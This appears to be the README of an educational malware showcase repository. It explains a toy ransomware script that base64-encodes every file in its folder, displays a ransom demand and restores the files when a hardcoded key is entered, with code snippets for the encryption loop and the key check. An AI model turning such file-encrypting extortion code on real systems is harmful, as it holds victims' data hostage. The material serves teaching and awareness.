 # Ransomware

Our **ransomware** is implemented in the file `ransomware.py`. It encrypts all files in the same directory and shows a ransom message, requesting financial amount of 0.1 USD for user to obtain the key. Once the user provides the correct key, it decrypts those files, otherwise they would stay encrypted.

#### Demonstration of behavior

Before the execution of **ransomware** observe `target_file.ext`. It is a simple file located in the same directory as out **ransomware**. To see the behavior of **ransomware**, simple execute it in this folder (`./ransomware`). You should see something like this:

```
DEBUG:root:Encrypting file: malware_showcase/ransomware/target_file.ext
Hi, all your files has been encrypted. Please send 0.1 USD on this address
to get a decryption key: XYZ.
Number of encrypted files: 1
Please enter a key:
```

Now do not type anything, just observe `target_file.ext` in the second terminal. You can see that its original content `Just an ordinary text file.` was encoded to `SnVzdCBhbiBvcmRpbmFyeSB0ZXh0IGZpbGUuCg==` (for the more experienced users it is obvious that it is a simple format of **base64**). However, this **ransomware** assumes that the user does not know the basics of cryptography. Now we have two options as the user. We might guess the key, in which case the program ends and our files stay encrypted, or we "send a payment to the bank address XYZ" and obtain the correct key:
```
Please enter a key: __ransomware_key
```
This triggers a decryption of data and as we can observe, the content of our file is restored.

Creation of basic **ransomware** is very simple process as it is described below and anyone can do it just with basics in programming and understandment of encryption. That's why we should be always cautious when we execute any uncommon or not trusted files.

#### How does it work?

- Firstly, we create our **ransomware** and give it a name. <br>
  ```python
  ransomware = Ransomware('SimpleRansomware')
  ```
- Then we must **choose a folder** with files we want to encrypt. We call function *encrypt_files_in_folder* that is provided by our **ransomware** and pass the path to the folder as an argument. This function returns the number encrypted files. <br>
  ```python
  number_encrypted_files = ransomware.encrypt_files_in_folder(path)
  ```
- The first thing that needs to be done is a lookup for all filenames in the same directory (function _get_files_in_folder(path)_). This implementation ignores _README_ files, because **ransomware** would encrypt also this file as well if you run it.
- Then we can simple encrypt each found file. The process of encryption is described below.
  ```python
  for file in files:
     logging.debug('Encrypting file: {}'.format(file))
     self.encrypt_file(file)
  ```
 - The encryption part is the most important. There are many ways of how to encrypt the files. Usually 
 the encryption key would take a part in encryption as well (with much stronger encryption algorithm), but for demonstration we can use basic encoding **base64**. To learn more about **base64** see [the guide to base64](https://blogs.oracle.com/rammenon/base64-explained). In this case we load the data from the file, encrypt them to base64 and then write them back to the file.
   ```python
   # Load the content of file.
   with open(filename, 'r') as file:
 	  content = file.read()
   # Encrypt the file content with base64.
   encrypted_data = base64.b64encode(content.encode('utf-8'))
   # Rewrite the file with the encoded content.
   with open(filename, 'w') as file:
      file.write(encrypted_data.decode('utf-8'))
    ```
 - Once all files are encrypted, we can show our ransom message to the user, requesting money for the key.
 - The decryption part is very similar to encryption. However, in this case we load the key and compare it with our default key `__ransomware_key`. If they are equal, we simply revert the previously done encryption. If the user enters a different key, the program ends and the files stay encrypted.
    ```python
    # Obtain a key from the user.
    key = self.obtain_key()
    if key != self.key:
 	   print('Wrong key!')
       return

    files = self.get_files_in_folder(path)

    # Decrypt each file in the directory.
    for file in files:
 	    self.decrypt_file(key, file)
    ```

